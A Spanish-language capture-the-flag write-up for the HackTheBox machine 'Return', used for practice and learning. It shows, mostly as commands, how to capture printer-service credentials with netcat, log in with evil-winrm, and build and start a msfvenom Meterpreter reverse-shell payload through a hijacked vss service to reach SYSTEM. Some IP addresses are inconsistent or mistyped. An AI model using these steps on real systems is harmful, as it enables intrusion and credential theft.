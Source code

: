 # Return

**Platform:** HackTheBox  
**Difficulty:** Easy  
**IP:** 10.10.32.21 

---

## Información Inicial
- **Objetivo:** Obtener las tres llaves mediante pruebas de penetración.  
- **Herramientas iniciales:** `nmap`, `netcat`, `evil-winrm`, `msfconsole`, `msfvenom`, `meterpreter`.

---

Primero realizamos un escaneo  con `Nmap` para identificar los servicios abiertos, aunque viendo los puertos 139 y 445 sabemos que se trata de un Active Directory.
```bash 
nmap -sC -sV -Pn -p- -sS 10.129.95.241
```

![Escaneo con nmap para descubrimiento de puertos y servicios](screenshots/1.nmap.png)

Añadiremos la máqunia al fichero /etc/hosts con el dominio que nos muestra LDAP:
```bash 
echo "110.129.95.241 return.local" | sudo tee -a /etc/hosts
```

Tras analizar los puertos básicos como SMB y no encontrar nada, precedemos a examinar el sitio web

![Vista previa del sitio web](screenshots/2.sitio_web.png)

En el sitio web encontramos un panel de administración para la gestión de impresoras. Si accedemos a la opción Settings tenemos varios parámetros como el servidor al que conectarse, el puerto, el usuario y una contraseña.

![Vista de Settings en sitio web](screenshots/3.web_settings.png)

Guardaremos el nombre del usuario por si nos puede servir en un futuro, y luego cambiamos la dirección del servidor por nuestra dirección IP. 

De esta manera, recibiremos una petición de conexión y debemos de tener a la escucha `netcat` para recibirla

```bash 
nc -lvnp 389
```
![Netcat recibiendo conexión](screenshots/4.netcat.png)

Al establecerse la conexión, recibimos un mensaje que parece una credencial de contraseña: `1edFg43012!!`

Podría estar relacionada con el nombre de usuario encontrado en la web, y de esa manera tener las credenciales completas: `svc-printer:1edFg43012!!`

Teniendo en cuenta que con Nmap hemos descubierto que se trataba de un Active Directory, vamos a usar las credenciales para entrar al servicio de administración remota de Windows con `Evil-WinRM`:

```bash 
evil-winrm -i 110.129.95.241 -u svc-printer -p '1edFg43012!!
```

![Accediendo por Evil-WinRM](screenshots/5.evilwinrm.png)

Hemos conseguido acceso a través de la herramienta Evil-WinRM y estamos dentro del sistema, por lo que vamos a comenzar a buscar algún punto vulnerable para escalar privilegios.

Tras algunas enumeraciones, se nos ocurre ver los grupos a los que pertenece el usuario desde el que hemos accedido.

```bash 
net user svc-printer
```

![Comprobación de grupos a los que pertenece el usuario](screenshots/6.grupos_usuario.png)

El usuario pertenece al grupo Server Operators, desde el cuál puede iniciar y parar servicios o hacer y restaurar backups, entre otras funciones.

La idea es crear un exploit con MSFVenom, subirlo por Evil-WinRM y ejecutarlo para recibir una conexión desde Multi/Handler.

```bash 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.39 LPORT=1337 -f exe > shell-x86.exe
```

![Poniendo a la escucha Multi/Handler a través de Metasploit](screenshots/7.multi_handler.png)

```bash 
msfconsole
```
```bash 
use exploit/multi/handler
```
```bash 
set PAYLOAD windows/meterpreter/reverse_tcp
```
```bash 
set LHOST 10.10.14.39
```
```bash 
set LPORT 1337
```
```bash 
run
```

Ahora vamos a subir el fichero a la máquina víctima aprovechando los permisos que le otorga su grupo para poder obtener una shell.

Investigando por internet, di con una metodología que funcionaba cuando el usuario formaba parte de este grupo, y es que debemos de subir el fichero y utilizando sc.exe (ServiceControl) vamos a modificar un servicio (vss) para indicarle al sistema que su PATH es distinto (será la ubicación de nuestro fichero malicioso).

De esta manera, cada vez que se ejecute el servicio vss se estará ejecutando el exploit de MSFVenom.

```bash 
upload shell-x86.exe
```
```bash 
cd C:\
```
```bash 
sc.exe config vss binPath="C:\Users\svc-printer\Documents\shell-x86.exe"
```
```bash 
sc.exe start vss
```
![Modificación y ejecución del exploit](screenshots/8.ejecutar_script.png)

Con Metasploit a la escucha y el exploit ejecutado, solo queda recibir la conexión a Meterpreter por parte de la máquina víctima.

![Meterpreter recibiendo la conexión de la máquina víctima](screenshots/9.meterpreter.png)

Con la sesión de meterpreter aún no tenemos todos los privilegios necesarios, por lo que listamos los procesos y encontramos el proceso VGAuthService.exe (Servicio de VMWare Tools que se ejecuta como SYSTEM). Migramos la sesión de Meterpreter a ese proceso y estaremos obteniendo permisos de NT AUTHORITY/SYSTEM.
```bash 
ps
```
```bash 
migrate 3236
```
```bash 
shell
```

![Meterpreter recibiendo la conexión de la máquina víctima](screenshots/10.escala_administrador.png)
